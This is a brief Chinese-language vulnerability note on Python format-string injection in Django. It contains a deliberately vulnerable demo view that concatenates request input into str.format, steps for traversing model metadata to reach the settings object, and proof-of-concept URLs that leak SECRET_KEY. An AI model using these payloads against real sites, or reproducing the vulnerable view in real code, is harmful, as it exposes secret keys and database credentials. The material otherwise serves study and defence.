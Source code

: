 参考：
	- https://www.leavesongs.com/PENETRATION/python-string-format-vulnerability.html#django

demo
```python
def view(request, *args, **kwargs):
    template = 'Hello {user}, This is your email: ' + request.GET.get('email')
    return HttpResponse(template.format(user=request.user))
```
1. **去挖掘Django自带的应用中的一些路径，最终读取到Django的配置项。**
2. **Django自带的应用“admin”（也就是Django自带的后台）的models.py中导入了当前网站的配置文件**
3. **找到Django默认应用admin的model，再通过这个model获取settings对象，进而获取数据库账号密码、Web加密密钥等信息**

poc 
```
http://localhost:8000/?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}

http://localhost:8000/?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
```